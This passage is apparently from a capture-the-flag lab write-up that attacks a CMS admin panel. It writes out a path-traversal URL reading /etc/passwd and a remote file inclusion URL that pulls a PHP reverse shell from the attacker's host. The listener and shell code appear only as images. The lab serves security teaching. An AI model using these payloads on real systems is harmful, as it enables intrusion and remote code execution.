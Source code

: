 ```
2022/04/07 23:39:04 Finished
===============================================================
```

Nice! We haven an administrator directory!! Let's visit it:

![image](https://user-images.githubusercontent.com/99112106/174288587-34223ef4-f10c-4a63-9c97-ec565c31f3ea.png)

* * *
## 6. Remote File Inclusion

Mmmmm we don't have any clue about admin's account so let's find another attack vector. Let's check if the  CMS has some known vulnerabilities that we can take advantage of. 

![image](https://user-images.githubusercontent.com/99112106/174288602-db1e8390-9044-4c97-a6e0-ef4d3c5e26c0.png)

Only one... Let's read the exploit:

![image](https://user-images.githubusercontent.com/99112106/174288617-d18ded2b-54f0-4ba0-b81b-357af51ab4fb.png)
![image](https://user-images.githubusercontent.com/99112106/174288630-6af00e8e-b499-4500-9b9e-7ec442bf6b16.png)

So basically we can include local or remote php files or even read non-PHP files. So let's try if it works by trying to read the "/etc/passwd" file. Using the following url:

```
http://10.10.160.60/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

We managed to retrieve the content of the file, so the exploit works! =)

![image](https://user-images.githubusercontent.com/99112106/174288643-44b3a12e-db2e-4249-8a8b-7f2bb2c78d72.png)

Okay, let's create a simple php script in order to execute a Remote File Inclusion:

![image](https://user-images.githubusercontent.com/99112106/174288659-5257ae4e-0563-4e52-99ff-6857b18f2702.png)

This should work fine... Set up a listenning port:

![image](https://user-images.githubusercontent.com/99112106/174288674-b3d90b9e-e781-423d-a662-c76599f72f74.png)

Now we need to put and python http server up in the air on the directory where we have our php reverse shell:

![image](https://user-images.githubusercontent.com/99112106/174288684-52a6bb2c-059f-4820-987f-5f2a8de1413e.png)

The url we're going to use is the following:

```
http://10.10.160.60/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.33.218/exploit
```

Once we run it on the web server, we recieved the request on our python http server:
